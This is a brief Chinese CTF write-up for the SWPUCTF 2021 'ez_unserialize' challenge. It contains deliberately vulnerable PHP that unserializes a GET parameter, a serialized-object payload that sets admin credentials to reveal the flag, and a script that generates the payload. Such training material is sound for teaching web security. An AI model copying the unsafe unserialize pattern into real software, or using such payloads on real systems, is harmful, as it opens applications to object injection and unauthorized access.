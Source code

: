 ### 例子

#### [SWPUCTF 2021 新生赛]ez_unserialize

https://www.nssctf.cn/problem/426

```php
<?php

error_reporting(0);
show_source("cl45s.php");

class wllm
{

    public $admin;
    public $passwd;

    public function __construct()
    {
        $this->admin = "user";
        $this->passwd = "123456";
    }

    public function __destruct()
    {
        if ($this->admin === "admin" && $this->passwd === "ctf") {
            include("flag.php");
            echo $flag;
        } else {
            echo $this->admin;
            echo $this->passwd;
            echo "Just a bit more!";
        }
    }
}

$p = $_GET['p'];
unserialize($p);
?>
```

payload:

```
p=O:4:"wllm":2:{s:5:"admin";s:5:"admin";s:6:"passwd";s:3:"ctf";}
```

exp

```php
<?php

class wllm
{
    public $admin = "admin";
    public $passwd = "ctf";
}

echo serialize(new wllm());
```
